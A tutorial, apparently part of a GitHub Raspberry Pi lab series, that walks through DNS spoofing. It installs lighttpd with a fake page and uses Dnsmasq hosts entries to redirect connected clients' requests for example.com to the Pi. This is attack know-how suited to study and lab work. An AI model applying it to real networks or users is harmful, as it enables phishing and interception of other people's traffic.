 # DNS hijacking, DNS poisoning or DNS redirection

Since Dnsmasq is already running on the Raspberry PI, it is very easy to forward (_unprotected or poorly configured_) STA's to wrong IP's. Through the various DNS or HTTP(S) analyzes, you also know which domains are being accessed by clients.

## Objective

The aim of this tutorial is to setup quickly a simple DNS redirection.

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim tree

# install needed packages
$ sudo apt install -y lighttpd
```

_Note: You could use also use any other common known web server (like Apache, Nginx, etc.) or Build-in web server (like Python, PHP, etc.)._

## Additional preparation

In case you have NoDogSplash service running, I recommend to stop it (_for now_).

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash.service
```

## lighttpd

After successful installation the web server is already started and you can visit with your browser the "Placeholder page" via `http://raspberrypi.local` or `http://<ip>`. But you should re-configure some default settings first.

```shell
# show lighttpd.conf (optional)
$ sudo cat /etc/lighttpd/lighttpd.conf

# show placeholder page (optional)
$ sudo cat /var/www/html/index.lighttpd.html

# list directories (optional)
$ sudo ls -la /var/www/

# show group file (optional)
$ sudo cat /etc/group | grep 'www-data'

# show passwd file (optional)
$ sudo cat /etc/passwd | grep 'www-data'

# change file owner and group recursive
$ sudo chown -R www-data:www-data /var/www/html

# add pi user to group www-data
$ sudo usermod -G www-data -a pi

# change permissions recursive
$ sudo chmod -R 775 /var/www/html

# reload lighttpd
$ sudo service lighttpd force-reload

# create index.html
$ vim /var/www/html/index.html
```

The content of `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Fake Page</title>
</head>
<body>
  <div>
    <p>Fake page...</p>
  </div>
</body>
</html>
```

Open again `http://raspberrypi.local` inside your browser, you should see now the content of `index.html`.

## Dnsmasq

There are various options with Dnsmasq to redirect DNS requests. The real simplest one is via `/etc/hosts`. But you have to check again whether this file is read by Dnsmasq. Check the configuration for this `/etc/dnsmasq.conf`!

```dnsmasq.conf
# do not read hosts file (optional)
# no-hosts
```

Add another entry into `/etc/hosts`.

```shell
# modify hosts file
$ sudo vim /etc/hosts
```

Example entry.

```hosts
192.168.0.1             example.com
```

_Note: If you have already called up the domain, you can now wait a little or delete the DNS cache. Otherwise the real website will still be displayed!_

Another way to do this attack with Dnsmasq is as follows.

```shell
# modify dnsmasq configuration
$ sudo vim /etc/dnsmasq.conf

# add spoof.hosts file
$ sudo vim /etc/dnsmasq.d/spoof.hosts

# restart dnsmasq service
$ sudo systemctl restart dnsmasq
```

Add the following lines in `/etc/dnsmasq.conf` configuration file.

```dnsmasq.conf
addn-hosts=/etc/dnsmasq.d/spoof.hosts
```

Add the following lines in `/etc/dnsmasq.d/spoof.hosts` file. It uses the same format as `/etc/hosts`.

```spoof.hosts
192.168.0.1 www.example.com example.com
```

## Additional

If the STA is using Domain Name System Security Extensions (_DNSSEC_) technologies, this will not work!

[Go Back](./README.md)
